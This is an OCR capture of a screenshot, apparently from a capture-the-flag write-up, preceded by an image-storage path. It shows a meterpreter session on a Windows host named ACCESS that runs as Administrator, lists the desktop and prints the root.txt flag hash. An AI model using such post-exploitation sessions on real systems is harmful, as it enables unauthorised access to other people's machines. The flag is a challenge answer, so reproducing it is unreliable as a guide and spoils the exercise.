 meterpreter > getuid
Server username: ACCESS\Administrator
meterpreter > 
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-21 17:55:15 -0400  desktop.ini
100444/r--r--r--  34    fil   2023-02-02 04:07:03 -0500  root.txt

meterpreter > cat root.txt
a2df4e456843a2ba7a1cf20f22bc2a02
meterpreter > 
            
